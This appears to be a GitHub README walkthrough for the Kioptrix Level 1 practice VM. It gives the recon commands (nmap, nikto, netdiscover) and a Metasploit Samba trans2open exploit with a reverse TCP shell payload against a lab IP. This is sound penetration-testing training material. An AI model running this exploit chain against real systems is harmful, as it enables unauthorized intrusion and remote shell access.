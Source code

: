# Kioptrix-Level-1
Join me as we embark on a journey through this virtual labyrinth, where we'll uncover vulnerabilities, exploit weaknesses, and ultimately conquer the system.
# 1. Reconnaissance:
```bash
  arp-scan -l  Or  sudo netdiscover
```
## Employed Nmap to identify open ports and services. 
```bash
 nmap -sV -A  <Enter Kioptrix IP (10.0.2.5)> Or sudo nmap kioptrix -sV -p- -O -T4 -oN nmap <Enter Kioptrix IP (10.0.2.5)>
```
## For nikto scan 
```bash
nikto http://10.0.2.5
```
# 2. Vulnerability Identification:
To find vulnerabilities , we need to know the samba version :

The searchsploit command is designed to uncover valuable information within the Exploit Database: 
```bash
searchsploit samba
```
# 3. Exploitation:
## The following commands can be used to launch Metasploit.
execute 
```bash 
sudo msfconsole
```
## Then we search the vulnerability and configure options for exploitation.
```bash
search samba version 
```
## Use 
```bash 
exploit/linux/samba/trans2open
```
We can use options command to see the options.

```bash
Options
```
We can use options command to see the options.

## Use:-
msf exploit(linux/samba/trans2open) >

```bash
set RHOST <target Ip(10.0.2.5)>
```

msf exploit(linux/samba/trans2open) > 
```bash 
set RPORT 139
```
msf exploit(linux/samba/trans2open) > 
```bash
set payload linux/x86/shell_reverse_tcp
```
msf exploit(linux/samba/trans2open) > 
```bash 
exploit
```
# Congratulations, you've conquered Kioptrix Level 1!





